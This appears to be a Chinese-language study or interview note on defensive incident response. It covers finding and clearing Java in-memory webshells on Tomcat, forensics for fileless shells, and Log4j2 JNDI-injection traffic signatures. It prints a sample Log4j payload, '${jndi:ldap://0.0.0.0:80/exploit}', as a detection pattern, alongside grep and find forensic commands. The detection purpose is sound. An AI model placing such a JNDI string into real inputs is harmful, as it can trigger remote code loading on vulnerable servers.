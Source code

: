     strings /var/cache/tomcat/temp/heapdump2022-10-19-12-464292342944555007800.hprof | grep -E "/webapps/.*?\!" | sort -u

（2）如果是 jsp 注入，在日志文件中排查 jsp 的访问请求，通过特征查找内存马 

    find / -name *.jsp | xargs grep "pass" 

（3）如果是 rce，查看中间件的 error.log，判断攻击时间和手法；

（4）根据告警的 url 查找日志，大量相同路径不同参数的请求，页面不存在但是返回 200 则可能有内存马。

（5）特殊的 classloader 加载（例如 Templateslmpl 和 bcel），对应的 classloader 路径下没有 class 文件。

（6）结合冰蝎和哥斯拉的 webshell 流量特征进行判断。

（7）利用检测工具（arthas/牧云，java instrument 技术），检测 filter 类型，agent 类型。

---

#### 怎样清除内存马

（1）客户允许的话，重启。

（2）删除 filter 中的恶意代码。

（3）中间件注销 filter。

（4）使用工具 arthas，VisualVM

---

#### 内存马无文件落地，怎么取证

/var/log/ 日志取证，结合流量特征用 grep 命令按照正则表达式搜索；/var/cache 缓存取证，结合流量特征用 grep 命令按照正则表达式搜索；检测工具，例如 arthas。

---

#### java web 中 servlet/filter/listener 的区别

servlet 是处理请求的动态资源；filter 是过滤器，可以修改请求和响应；listener 是监听器，可以监听并加载一些插件。

servlet: 冰蝎内存马

filter: struts2

listener: spring, log4j

---

#### log4j2 原理和流量特征

log4j2 是日志组件，其 lookups 机制存在 jndi 注入。

判断利用是否成功：（1）出网一般走 rmi/ldap/dns，配合 ids 查看目标主机是否外带攻击；（2）查看目标主机是否存在 dnslog 活动；（3）查看是否下载恶意类。

log4j2 的特征是 ${}，例如 ${jndi:ldap://0.0.0.0:80/exploit}

log4j2 使用 jndi 注入，找恶意 url。

log4j2 流量可以看到 rmi 或者 ldap 字样。

log4j2 流量会出现 dns/ip 相关特征。
